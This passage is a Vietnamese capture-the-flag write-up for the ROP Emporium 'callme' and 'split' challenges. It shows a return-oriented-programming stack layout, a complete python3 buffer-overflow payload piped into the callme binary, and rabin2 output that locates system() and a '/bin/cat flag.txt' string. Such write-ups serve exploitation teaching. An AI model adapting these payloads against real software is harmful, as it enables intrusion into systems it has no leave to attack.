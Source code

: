 Sử dụng gadget `pop rdi; pop rsi; pop rdx; ret;` sẽ lấy lần lượt 3 vị trí kế tiếp trong stack làm argument cho hàm trả về của chúng ta

Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x400720] -> callme_one();
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x400740] -> callme_two();
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x4006f0] -> callme_three();
```

Truyền payload vào binary

```text-plain
python3 -c “import sys;sys.stdout.buffer.write(b'A'*40 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x20\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x40\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\xf0\x06\x40\x00' + b'\x00'*4)” | ./callme
```

## Split
Challenge 2 hướng dẫn chúng ta truyền string có sẵn trong binary làm argument cho function cho chúng ta sử dụn

![]({static}/images/ropemporium/Split/image.png)

Ta thấy hàm system gọi `/bin/ls` tuy nhiên ở đây ta muốn lấy nội dung của flag nên ta sẽ lấy chuỗi `/bin/cat flag.txt` trong section .data của binary để truyền vào arg1 của function system(). Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i split
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
...
$ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt


```